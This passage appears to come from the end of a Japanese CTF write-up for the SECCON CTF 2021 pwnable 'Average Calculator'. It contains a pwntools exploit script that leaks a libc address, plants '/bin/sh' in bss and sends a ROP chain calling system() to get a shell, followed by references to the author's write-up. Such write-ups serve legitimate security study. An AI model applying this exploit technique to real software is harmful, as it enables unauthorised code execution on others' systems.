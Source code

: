 ```python
sc.sendline(str(n).encode())

for i, _n in enumerate(payload):
    send_num(_n)

sc.recvuntil(b"=")
res = sc.recvline()
print("ave:", res)

# libc leak
res = sc.recvline().strip()
leak = u64(res + b"\x00" * 2)
libc_addr = leak - addrs["puts_libc"]
print(hex(libc_addr))

addrs["system_libc"] = libc.symbols["system"] + libc_addr

# write `%s` to bss
percent_s = int.from_bytes(b"%s", "little")
sc.sendline(str(percent_s).encode())

# write `/bin/sh` to bss
sc.sendline(b"/bin/sh")

# write rop chain
payload = p64(addrs["fake_stack"] + 0x300)  # new rbp
payload += p64(rpg["pop_rdi"])
payload += p64(addrs["/bin/sh"])
payload += p64(rpg["ret"])
payload += p64(addrs["system_libc"])

if b"\x20" in payload:
    print("damedayo")
    exit()

print("[+] ROP")
sc.sendline(payload)

sc.interactive()
```

## Flag

ローカルでやっただけなのでなし

## References

- [Average Calculator (pwnable, 56 teams solved) - HackMD](https://hackmd.io/@kusano/ryg0SnQct): 作問者Writeup(英語、コード付き)
- [SECCON CTF 2021作問者writeup＋作問した感想 - kusano_k’s blog](https://kusano-k.hatenablog.com/entry/2021/12/23/014312): 作問感想
	- Full RELROでも解けるらしいので(Full RELROでコンパイルはしてないが)、GOT Overwriteをせずに解いた
